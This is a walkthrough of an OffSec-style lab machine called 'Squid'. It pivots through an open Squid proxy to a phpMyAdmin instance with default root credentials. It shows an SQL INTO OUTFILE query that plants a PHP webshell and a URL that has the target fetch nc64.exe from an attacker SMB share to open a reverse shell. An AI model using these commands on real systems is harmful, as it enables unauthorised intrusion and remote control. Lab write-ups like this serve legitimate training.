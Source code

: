 # Squid

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.233.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 15:29 +08
Nmap scan report for 192.168.233.189
Host is up (0.17s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
3128/tcp open  squid-http
```

Only one port is open.

### Squid Proxy --> FoxyProxy

The port was a Squid Proxy instance. When visited in a browser, this is all we see:

<figure><img src="../../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

Since this is a proxy service, it might be the gateway that we need to access the services running on the machine itself. To scan the machine, we can include this line in our `/etc/proxychains4.conf` file:

```
socks5 192.168.233.189 3128
```

Afterwards, we can use `proxychains` to scan the machine again to find more ports that are open,  but this takes far too long. Instead, we can use FoxyProxy to attempt to view some interesting ports. I tried with a few ports like 80, 443 and 8080 for websites, and found a service on port 8080.

<figure><img src="../../../.gitbook/assets/image (5) (3) (3).png" alt=""><figcaption></figcaption></figure>

### Default Creds --> SQL RCE

There's a PHPMyAdmin instance present on the page, and we can login using `root` as the username with no password.

<figure><img src="../../../.gitbook/assets/image (21) (1) (6).png" alt=""><figcaption></figcaption></figure>

Since this is already the administrative interface, we can get a shell by creating a database and then executing some SQL commands in it via the web SQL interpreter.&#x20;

<figure><img src="../../../.gitbook/assets/image (101) (4) (2).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can select this database and head to the QUERY tab:

<figure><img src="../../../.gitbook/assets/image (104) (4).png" alt=""><figcaption></figcaption></figure>

We can test it with any query and see that it is indeed processing SQL queries:

<figure><img src="../../../.gitbook/assets/image (102) (5).png" alt=""><figcaption></figcaption></figure>

Since we can submit queries, we can also write files into the file system of the machine. I wanted to write a basic PHP webshell, but this means we need to know the webroot file. Very conveniently, there's a `phpinfo` page on the main Wampserver page.&#x20;

There, we can find the `DOCUMENT_ROOT`:

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

We can then use this query to write a webshell onto the machine:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile "C:\\wamp\\www\\backdoor.php"
```

<figure><img src="../../../.gitbook/assets/image (154).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can test our RCE:

<figure><img src="../../../.gitbook/assets/image (159) (3).png" alt=""><figcaption></figcaption></figure>

Great! No all we need to do is get a reverse shell as the user. By setting up a SMB server on our machine with `nc64.exe` within the directory, we can send this to get a shell:

```
http://192.168.233.189:8080/backdoor.php?cmd=\\192.168.45.161\share\nc64.exe+-e+cmd.exe+192.168.45.161+4444
```

<figure><img src="../../../.gitbook/assets/image (157) (7).png" alt=""><figcaption></figcaption></figure>

There is no privilege escalation, because we have successfully gotten a SYSTEM shell.&#x20;

{% hint style="info" %}
This machine was changed since I last did it in 2022. My older writeups show that the machine was running as LOCAL SYSTEM instead of the SYSTEM user.

The old box would give us intial access with the LOCAL SYSTEM user without any privileges, and we had to use either schtasks or FullPowers.exe to give us a shell with the full privileges of a LOCAL SYSTEM user that includes SeImpersonatePrivilege, which we can then use PrintSpoofer.exe or JuicyPotato.exe to get a SYSTEM shell.
{% endhint %}
